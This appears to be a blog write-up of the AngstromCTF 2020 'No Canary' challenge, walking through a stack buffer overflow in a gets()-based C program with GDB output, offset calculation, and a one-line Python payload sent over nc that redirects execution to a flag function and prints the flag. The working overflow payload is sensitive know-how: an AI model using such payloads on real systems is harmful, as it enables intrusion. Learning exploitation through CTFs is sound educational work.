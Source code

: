 ```yaml
---
layout: post
title: AngstromCTF 2020 - No Canary
excerpt: "Writeup for basic buffer overflow challenge from AngstromCTF 2020"
categories: [pwn angstromctf]
---
```


### No Canary

No Canary was the first challenge in the Binary category from AngstromCTF 2020. The challenge provided a 64-bit executable and some source code (below). Viewing the source, it is apparent that a 20 character buffer is initialized, and the vulnerable function `gets` allows us to supply input into that buffer. Since `gets` doesn't limit how many characters we write into the buffer, we can write more than 20, resulting in a [buffer overflow](https://en.wikipedia.org/wiki/Buffer_overflow).

{% highlight c %}

#include <stdlib.h>
#include <stdio.h>
#include <string.h>

void flag() {
	system("/bin/cat flag.txt");
}

int main() {
	setvbuf(stdin, NULL, _IONBF, 0);
	setvbuf(stdout, NULL, _IONBF, 0);
	gid_t gid = getegid();
	setresgid(gid, gid, gid);

	puts("Ahhhh, what a beautiful morning on the farm!\n");
	puts("       _.-^-._    .--.");
	puts("    .-'   _   '-. |__|");
	puts("   /     |_|     \\|  |");
	puts("  /               \\  |");
	puts(" /|     _____     |\\ |");
	puts("  |    |==|==|    |  |");
	puts("  |    |--|--|    |  |");
	puts("  |    |==|==|    |  |");
	puts("^^^^^^^^^^^^^^^^^^^^^^^^\n");
	puts("Wait, what? It's already noon!");
	puts("Why didn't my canary wake me up?");
	puts("Well, sorry if I kept you waiting.");
	printf("What's your name? ");

	char name[20];
	gets(name);

	printf("Nice to meet you, %s!\n", name);
}

{% endhighlight %}

Since the source features a "flag" function it's safe to assume that the goal is to overwrite the return pointer of main to point to this function. I started off by running the challenge in my [ctf docker](https://github.com/hoefler02/ctfdoc). As expected, writing more than 20 characters into the buffer resulted in a segmentation fault.

```
root@9dc002f9142e /pwn# chmod +x no_canary
root@9dc002f9142e /pwn# ./no_canary 
Ahhhh, what a beautiful morning on the farm!

       _.-^-._    .--.
    .-'   _   '-. |__|
   /     |_|     \|  |
  /               \  |
 /|     _____     |\ |
  |    |==|==|    |  |
  |    |--|--|    |  |
  |    |==|==|    |  |
^^^^^^^^^^^^^^^^^^^^^^^^

Wait, what? It's already noon!
Why didn't my canary wake me up?
Well, sorry if I kept you waiting.
What's your name? AAAAAAAAAAAAAAAAAAAABBBBBBBBBBBBBBBBBBBB
Nice to meet you, AAAAAAAAAAAAAAAAAAAABBBBBBBBBBBBBBBBBBBB!
fish: './no_canary' terminated by signal SIGSEGV (Address boundary error)
root@9dc002f9142e /pwn# 
```

To figure out how to exploit this, I launched [GDB](https://www.gnu.org/software/gdb/) to find the offset of the buffer and the return pointer which we want to overwrite. 

```
(gdb) disas main
Dump of assembler code for function main:
   0x0000000000401199 <+0>:	push   rbp
   0x000000000040119a <+1>:	mov    rbp,rsp
   0x000000000040119d <+4>:	sub    rsp,0x20
   0x00000000004011a1 <+8>:	mov    rax,QWORD PTR [rip+0x2ec8]        # 0x404070 <stdin@@GLIBC_2.2.5>
   0x00000000004011a8 <+15>:	mov    ecx,0x0
   0x00000000004011ad <+20>:	mov    edx,0x2
   0x00000000004011b2 <+25>:	mov    esi,0x0
   0x00000000004011b7 <+30>:	mov    rdi,rax
   0x00000000004011ba <+33>:	call   0x401090 <setvbuf@plt>
   0x00000000004011bf <+38>:	mov    rax,QWORD PTR [rip+0x2e9a]        # 0x404060 <stdout@@GLIBC_2.2.5>
   0x00000000004011c6 <+45>:	mov    ecx,0x0
   0x00000000004011cb <+50>:	mov    edx,0x2
   0x00000000004011d0 <+55>:	mov    esi,0x0
   0x00000000004011d5 <+60>:	mov    rdi,rax
   0x00000000004011d8 <+63>:	call   0x401090 <setvbuf@plt>
   0x00000000004011dd <+68>:	mov    eax,0x0
   0x00000000004011e2 <+73>:	call   0x401080 <getegid@plt>
   0x00000000004011e7 <+78>:	mov    DWORD PTR [rbp-0x4],eax
   0x00000000004011ea <+81>:	mov    edx,DWORD PTR [rbp-0x4]
   0x00000000004011ed <+84>:	mov    ecx,DWORD PTR [rbp-0x4]
   0x00000000004011f0 <+87>:	mov    eax,DWORD PTR [rbp-0x4]
   0x00000000004011f3 <+90>:	mov    esi,ecx
   0x00000000004011f5 <+92>:	mov    edi,eax
   0x00000000004011f7 <+94>:	mov    eax,0x0
   0x00000000004011fc <+99>:	call   0x401040 <setresgid@plt>
   0x0000000000401201 <+104>:	lea    rdi,[rip+0xe18]        # 0x402020
   0x0000000000401208 <+111>:	call   0x401030 <puts@plt>
   0x000000000040120d <+116>:	lea    rdi,[rip+0xe3a]        # 0x40204e
   0x0000000000401214 <+123>:	call   0x401030 <puts@plt>
   0x0000000000401219 <+128>:	lea    rdi,[rip+0xe45]        # 0x402065
   0x0000000000401220 <+135>:	call   0x401030 <puts@plt>
   0x0000000000401225 <+140>:	lea    rdi,[rip+0xe50]        # 0x40207c
   0x000000000040122c <+147>:	call   0x401030 <puts@plt>
   0x0000000000401231 <+152>:	lea    rdi,[rip+0xe5b]        # 0x402093
   0x0000000000401238 <+159>:	call   0x401030 <puts@plt>
   0x000000000040123d <+164>:	lea    rdi,[rip+0xe66]        # 0x4020aa
   0x0000000000401244 <+171>:	call   0x401030 <puts@plt>
   0x0000000000401249 <+176>:	lea    rdi,[rip+0xe71]        # 0x4020c1
   0x0000000000401250 <+183>:	call   0x401030 <puts@plt>
   0x0000000000401255 <+188>:	lea    rdi,[rip+0xe7c]        # 0x4020d8
   0x000000000040125c <+195>:	call   0x401030 <puts@plt>
   0x0000000000401261 <+200>:	lea    rdi,[rip+0xe59]        # 0x4020c1
   0x0000000000401268 <+207>:	call   0x401030 <puts@plt>
   0x000000000040126d <+212>:	lea    rdi,[rip+0xe7b]        # 0x4020ef
   0x0000000000401274 <+219>:	call   0x401030 <puts@plt>
   0x0000000000401279 <+224>:	lea    rdi,[rip+0xe90]        # 0x402110
   0x0000000000401280 <+231>:	call   0x401030 <puts@plt>
   0x0000000000401285 <+236>:	lea    rdi,[rip+0xea4]        # 0x402130
   0x000000000040128c <+243>:	call   0x401030 <puts@plt>
   0x0000000000401291 <+248>:	lea    rdi,[rip+0xec0]        # 0x402158
   0x0000000000401298 <+255>:	call   0x401030 <puts@plt>
   0x000000000040129d <+260>:	lea    rdi,[rip+0xed7]        # 0x40217b
   0x00000000004012a4 <+267>:	mov    eax,0x0
   0x00000000004012a9 <+272>:	call   0x401060 <printf@plt>
   0x00000000004012ae <+277>:	lea    rax,[rbp-0x20]
   0x00000000004012b2 <+281>:	mov    rdi,rax
   0x00000000004012b5 <+284>:	mov    eax,0x0
   0x00000000004012ba <+289>:	call   0x401070 <gets@plt>
   0x00000000004012bf <+294>:	lea    rax,[rbp-0x20]
   0x00000000004012c3 <+298>:	mov    rsi,rax
   0x00000000004012c6 <+301>:	lea    rdi,[rip+0xec1]        # 0x40218e
   0x00000000004012cd <+308>:	mov    eax,0x0
   0x00000000004012d2 <+313>:	call   0x401060 <printf@plt>
   0x00000000004012d7 <+318>:	mov    eax,0x0
   0x00000000004012dc <+323>:	leave  
   0x00000000004012dd <+324>:	ret    
End of assembler dump.

(gdb) b *0x00000000004012bf
Breakpoint 1 at 0x4012bf
(gdb) b *0x00000000004012dd
Breakpoint 2 at 0x4012dd

(gdb) r
Starting program: /pwn/no_canary 
Ahhhh, what a beautiful morning on the farm!

       _.-^-._    .--.
    .-'   _   '-. |__|
   /     |_|     \|  |
  /               \  |
 /|     _____     |\ |
  |    |==|==|    |  |
  |    |--|--|    |  |
  |    |==|==|    |  |
^^^^^^^^^^^^^^^^^^^^^^^^

Wait, what? It's already noon!
Why didn't my canary wake me up?
Well, sorry if I kept you waiting.
What's your name? AAAABBBB

Breakpoint 1, 0x00000000004012bf in main ()

(gdb) x/4xg $rsp
0x7fffffffe640:	0x4242424241414141	0x0000000000401000
0x7fffffffe650:	0x00007fffffffe740	0x0000000000000000
(gdb) c
Continuing.
Nice to meet you, AAAABBBB!

Breakpoint 2, 0x00000000004012dd in main ()
(gdb) x/4xg $rsp
0x7fffffffe668:	0x00007ffff7a2d830	0x0000000000000001
0x7fffffffe678:	0x00007fffffffe748	0x00000001f7ffcca0
(gdb) x flag
0x401186 <flag>:	0xe5894855
(gdb) q
```

Examining the stack pointer after the gets call showes us that the buffer starts at the address `0x7fffffffe640`. We also find the return pointer at `0x7fffffffe668` and the flag function at `0x401186`. Finally, we can used python to subtract the buffer address from the return pointer address. This will tell us how many characters we need to write to reach the return pointer.

```
Python 2.7.12 (default, Oct  8 2019, 14:14:10) 
[GCC 5.4.0 20160609] on linux2
Type "help", "copyright", "credits" or "license" for more information.
>>> 0x7fffffffe668 - 0x7fffffffe640
40
```

Since we know the address of the flag function and the offset we need to write to get to the return pointer (40), we are ready to write an exploit to try on the challenge server (shell.actf.co on port 20700). I used inline python for this, but [pwntools](https://github.com/Gallopsled/pwntools) would have worked just as well. As a side note, make sure to always put your addresses in [little endian](https://en.wikipedia.org/wiki/Endianness) as I did below. 

```
root@9dc002f9142e /pwn# python -c "print 'A' * 40 + '\x86\x11\x40\x00\x00\x00\x00\x00'" | nc shell.actf.co 20700
Ahhhh, what a beautiful morning on the farm!

       _.-^-._    .--.
    .-'   _   '-. |__|
   /     |_|     \|  |
  /               \  |
 /|     _____     |\ |
  |    |==|==|    |  |
  |    |--|--|    |  |
  |    |==|==|    |  |
^^^^^^^^^^^^^^^^^^^^^^^^

Wait, what? It's already noon!
Why didn't my canary wake me up?
Well, sorry if I kept you waiting.
What's your name? Nice to meet you, AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA?@!
actf{that_gosh_darn_canary_got_me_pwned!}
Segmentation fault
```

This gives `actf{that_gosh_darn_canary_got_me_pwned!}`, which is the flag to the challenge!